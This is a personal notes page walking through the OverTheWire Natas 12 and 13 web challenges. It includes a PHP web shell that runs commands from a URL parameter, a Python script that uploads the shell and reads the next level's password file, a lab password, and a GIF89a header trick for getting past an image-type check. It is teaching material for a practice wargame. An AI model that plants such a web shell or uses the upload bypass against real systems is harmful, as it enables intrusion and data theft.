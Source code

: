
2024-07-14 18:54

Source:  #overthewire #natas #web 

Tags: [[Local File Inclusion & Command Injection]]
## Natas12

we have a unrestricted file upload functionality 

create a [[php]] file named `revshell.php` with the following contents, we will modify the `c` parameter later 
```
<?php
	system($_GET['c']);
?>
```

```
import requests
username = 'natas12'
password = 'yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB'

url = 'http://natas12.natas.labs.overthewire.org/'
sessions = requests.Session()

#response = sessions.post(url,files = {"uploadedfile" : open('revshell.php','rb')},data = {"filename": "revshell.php"},auth = (username,password))

response = sessions.get(url + 'upload/kx42yjw6zv.php?c=cat /etc/natas_webpass/natas13',auth = (username,password))

print(response.text)
```
1. commented code uploads our created `php` file  using `.post` method  
2. the output of the commented code will reveal the newly created file name on the server of the file that we uploaded 
3. in our case the path is `upload/kx42yjw6zv.php`
4. we append the path to the `url` and try executing commands by adding our commands to the previously defined `c` parameter.
## Natas13

similar to natas12, here we have a `php` module named `exif_imagetype` that [[image upload]]checks if the file uploaded is an image and within the size limit of 1kb 

`exif_imagetype` checks for file signatures

we add `GIF89a` at the start of our payload `php` file making the contents of the file as 
```
GIF89a
<?php
system($_GET['c']);
?>
```

rest of the process is same as natas12

### References
https://www.youtube.com/watch?v=fqwxYowJA0c